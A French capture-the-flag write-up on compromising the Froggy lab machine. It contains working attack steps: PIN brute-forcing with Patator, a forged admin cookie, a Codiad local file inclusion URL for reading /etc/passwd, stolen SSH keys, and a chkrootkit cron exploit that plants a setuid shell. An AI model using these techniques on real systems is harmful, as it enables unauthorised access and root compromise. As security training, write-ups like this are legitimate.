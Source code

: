 ```yaml
---
title: Solution du CTF Froggy de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Froggie jumped all over the stage that day
------------------------------------------

*Froggy* est un CTF basé Linux proposé sur la plateforme *Wizard Labs*.  

Via un buster avec une liste assez large de paths potentiels, on trouve différents dossiers, mais surtout une zone membre :  

```
/images (Status: 301)
/thumbnail (Status: 301)
/server-status (Status: 403)
/grid (Status: 301)
/memberarea (Status: 301)
```

Dans cette zone, on peut trouver des pages PHP, mais elles nécessitent une authentification :  

```
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/test.php (Status: 200)
/update.php (Status: 302)
/database (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)
/forgot.php (Status: 200)
/editor (Status: 301)
/dashboard.php (Status: 302)
/remove.php (Status: 200)
```

Le script `forgot.php` correspond évidemment à un script de récupération de mot de passe. Il est tout de même assez inhabituel puisqu'il ne demande qu'un PIN.  

Partant du principe qu'un PIN est généralement numérique on peut utiliser _Patator_ pour trouver les PINs qui ne sont pas invalides :  

```bash
patator http_fuzz url='http://10.1.1.56/memberarea/forgot.php' method=POST body='forgotpass=Check&secretpin=RANGE0' 0=int:0-10000 -x ignore:fgrep='Sercet pin not matched'
```

NB: la typo fait partie du challenge.  

Avec un PIN de 0 on obtient un message différent : `Please enter your secret pin to view your password.`  

Hmmm étrange, mais pas vraiment utile :-/   

Puisque le site le permet j'ai créé un compte dans cette zone membre et une fois connecté on peut clairement voir un cookie nommé `membersession` qui contient le base64 correspondant au compte que je viens de créer (`devloop`).  

Il suffit d'éditer le cookie pour y mettre le base64 de `admin` puis on retourne sur le dashboard qui nous livre ses secrets :  

> Welcome admin  
> 
> Your Notes : Need to beautify our gallery using '83VbbDGjefTnM9wQ' as Password

Codiadwnage
-----------

Où utiliser ces identifiants ?  

Toujours sous `/memberarea` on trouve un dossier nommé `editor` qui est un IDE web baptisé [Codiad](http://codiad.com/).  

Pas grand-chose d'intéressant à y voir une fois connecté, toutefois ce soft semble vulnérable :  

```console
$ searchsploit codiad
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities  | exploits/php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion      | exploits/php/webapps/36371.txt
----------------------------------------- ----------------------------------------
Shellcodes: No Result
```

La faille d'inclusion locale est très facile à exploiter :  

```
http://10.1.1.56/memberarea/editor/components/filemanager/download.php?path=../../../../../../../../../../../etc/passwd&type=undefined
```

On note la présence de deux utilisateurs :  

```
sysadm:x:1001:1001:,,,:/home/sysadm:/bin/bash
ahmed:x:1002:1002:,,,:/home/ahmed:/bin/bash
```

La clé privée SSH de `ahmed` est récupérable et nous permet d'obtenir notre shell ainsi que le premier flag :)  

On reçoit aussi une notification de réception d'un email :  

```console
You have mail.
Last login: Sat Feb 23 10:27:50 2019 from 192.168.0.30
ahmed@froggy:~$ mail
-bash: mail: command not found
ahmed@froggy:~$ ls /var/spool/mail
ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed
/var/spool/mail/ahmed
ahmed@froggy:~$ ls /var/spool/mail/ahmed  -lh
-rwx------ 1 ahmed ahmed 367 Feb 22 14:56 /var/spool/mail/ahmed
ahmed@froggy:~$ cat /var/spool/mail/ahmed
From: SysAdmin <sysadm@localhost.localdomain>
To: Ahmed <ahmed@localhost.localdomain>
Subject: Vulnerable Program

Dear Ahmed !

While I was visiting some hacker websites I discovered an "public exploit " for our anti-rootkit utility ...

It's surely disappointing for us but I did my best to make the exploit unusable for any attacker .

Your Lovely SysAdmin  !!
```

Cuisses de grenouilles
----------------------

Au début, je me suis dirigé vers l'idée d'un script custom à exploiter, j'ai donc fouillé à droite à gauche.  

L'utilisateur `sysadm` ne dispose d'aucun fichier vraiment intéressant.  

Après avoir récupéré les identifiants SQL j'ai trouvé le mot de passe admin de la zone membre ainsi que les PINs, ce qui explique le message de tout à l'heure.  

```console
$ mysql -u membership -p member
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 50060
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [member]> show tables;
+------------------+
| Tables_in_member |
+------------------+
| pdo              |
+------------------+
1 row in set (0.00 sec)

MariaDB [member]> select * from pdo;
+----+----------+----------+------------------+-----------+
| id | fullname | username | password         | secretpin |
+----+----------+----------+------------------+-----------+
|  1 | admin    | admin    | Gw-LfcrjC-4hr6>g |         0 |
|  2 | test     | test     | test             |         0 |
|  3 | devloop  | devloop  | devloop          |    123456 |
+----+----------+----------+------------------+-----------+
3 rows in set (0.26 sec)
```

Je suis alors parti sur l'idée que `chkrootkit` soit exécuté via un `crontab` puisque je savais qu'une faille existait pour ce logiciel (forcément ça en a fait rigoler quelques-uns).  

Le binaire est bien présent sur le système, mais est-il exécuté ? J'ai eu recours une nouvelle fois à mon script de surveillance des process ([voir CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %})) :  

```bash
23961 root /usr/sbin/CRON -f
23962 root /bin/sh -c    chkrootkit
23963 root /bin/sh /usr/bin/chkrootkit
24205 root /bin/echo -n Checking `inetd'...
24466 root grep -E check_global_passwd|panasonic|satori|vejeta|\.ark|/hash\.zk
24492 root /bin/ps auwx
24493 root grep -E xinetd
24494 root grep -E -v grep
24589 root /usr/bin/find /dev /tmp /lib /etc /var ( -name tcp.log -o -name .linux-sniff -o -name sniff-l0g -o -name core_ )
24610 root find /lib /usr/lib /usr/local/lib -name libproc.a
24643 root /usr/bin/find /usr/lib /lib -name .[A-Za-z]* -o -name ...* -o -name .. *
24654 root /usr/bin/find /usr/lib /lib -type d -name .*
24695 root /usr/bin/find /usr/lib -name last.cgi
24708 root /usr/bin/find /usr/lib /usr/bin -name red.tar -o -name start.sh -o -name klogd.o -o -name 0anacron-bak -o -name adore
24777 root /bin/sh /usr/bin/chkrootkit
24778 root /usr/bin/strings /sbin/init
24779 root grep -E HOME
24856 root /bin/sh /usr/bin/chkrootkit
24857 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
24858 root grep -E #!.*php
25025 root /bin/sh /usr/bin/chkrootkit
25026 root find /proc
25027 root wc -l
```

L'exploit présent [sur exploit-db](https://www.exploit-db.com/exploits/33899) indique que `chkrootkit` va exécuter les scripts présents dans la variable `SLAPPER_FILES`.  

L'exploit donnait un exemple avec le script `/tmp/update` donc au début je ne suis pas allé plus loin, mais voyant que rien ne s'exécutait j'ai regardé le code (`chkrootkit` est écrit en bash) et la liste variable était différente :  

```bash
SLAPPER_FILES="${ROOTDIR}dev/shm/slapper"
```

J'ai donc écrit un script bash à cet emplacement :  

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Cette fois notre script est bien exécuté :  

```bash
2890 root /bin/sh /usr/bin/chkrootkit
2891 root /usr/bin/find /tmp /var/tmp -type f -exec head -n 1 {} ;
2892 root grep -E #!.*php
2937 root /bin/netstat -an
2938 root grep -E ^tcp.*LIST|^udp
2939 root grep -E [.:]145[^0-9.:]
--- snip ---
3041 root /bin/netstat -an
3042 root grep -E ^tcp.*LIST|^udp
3043 root grep -E [.:]47889[^0-9.:]
3062 root /bin/sh /usr/bin/chkrootkit
3063 root find /proc
3064 root wc -l
3130 root /bin/bash /dev/shm/slapper
3131 root [cp]
3133 root [chmod]
```

```console
$ ./devloop_was_here
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
5bbfc6a26697caaaa66b1eefb8d3a1a0699ab51c
```


*Published May 21 2019 at 18:09*
